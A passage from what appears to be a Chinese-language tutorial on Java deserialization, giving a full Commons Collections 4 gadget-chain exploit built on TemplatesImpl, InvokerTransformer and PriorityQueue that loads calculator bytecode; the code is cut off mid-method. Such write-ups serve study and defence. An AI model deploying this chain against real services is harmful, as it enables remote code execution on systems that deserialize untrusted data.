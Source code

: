 所以说 size 最少是 2 才会触发排序和比较。使用 PriorityQueue.add()

还要注意得问题是在序列化之前使用 PriorityQueue.add() 会提前进入到 siftDownUsingComparator 调用到 comparator.compare，使得代码抛出异常，所以我们要在进行 add 之前将我们传入得 comparator 为无效值，add 完之后再修改回来。

### 完整 exp

```plain
import java.io.*;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.PriorityQueue;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;
import org.apache.commons.collections4.comparators.TransformingComparator;

public class CommonscollectionsTest {
    public static void main(String[] args) throws Exception{

        TemplatesImpl Templates = new TemplatesImpl();
        Class tc = Templates.getClass();
        Field nameField = tc.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(Templates,"lituer");


        Field bytecodeField = tc.getDeclaredField("_bytecodes");
        bytecodeField.setAccessible(true);

        byte[] code = Files.readAllBytes(Paths.get("D:\\IdeaProjects1\\untitled2\\target\\classes\\org\\example\\calc.class"));
        byte[][] codes = {code};
        bytecodeField.set(Templates,codes);


        InvokerTransformer<Object,Object> invokerTransformer = new InvokerTransformer<>("newTransformer",new Class[]{},new Object[]{});
        TransformingComparator transformingComparator = new TransformingComparator(new ConstantTransformer<>(1));

        PriorityQueue priorityQueue = new PriorityQueue<>(transformingComparator);

        priorityQueue.add(1);
        priorityQueue.add(2);

        Class c = transformingComparator.getClass();
        Field transformedField = c.getDeclaredField("transformer");
        transformedField.setAccessible(true);
        transformedField.set(transformingComparator,invokerTransformer);


        serialize(priorityQueue);
        unserialize("ser.bin");
    }

    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }
    public static Object unserialize(String Filename) throws IOException,ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
```